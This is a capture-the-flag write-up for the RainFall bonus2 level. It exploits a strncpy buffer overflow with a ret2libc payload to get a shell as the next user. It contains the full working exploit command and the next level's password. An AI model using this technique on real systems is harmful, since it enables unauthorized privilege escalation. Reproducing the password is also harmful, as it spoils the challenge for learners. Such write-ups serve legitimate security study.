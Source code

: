 This program has a different behaviour depending on the `LANG` environment variable. There is three state :

```bash
LANG="fi"
LANG="nl"
LANG=*
```

So I first tried :

```bash
bonus2@RainFall:~$ export LANG="fi"
```

And tried to segfault the program with a buffer overflow.
First we see that the `strncpy` copy up to 40 bytes in a 10 bytes buffer. And we put a lot of bytes into the second argument :

>bonus2@RainFall:~$ gdb -q --args ./bonus2 `python -c 'print("A" * 40)'` `python -c 'print("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH")'`
>Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
>(gdb) run
>Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
>Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH
>Program received signal SIGSEGV, Segmentation fault.
>0x46464545 in ?? ()

There is a segfault beginning at the third `E`. So as done previously, we can call `sytem("/bin/sh") from there :

>bonus2@RainFall:~$ ./bonus2 `python -c 'print("A" * 40)'` `python -c 'print("AAAABBBBCCCCDDDDEE" + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7")'`
>Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEE`��IDGBX���
>$ whoami
>bonus3
>$ cat /home/user/bonus3/.pass
>71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587

```bash
su bonus3
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

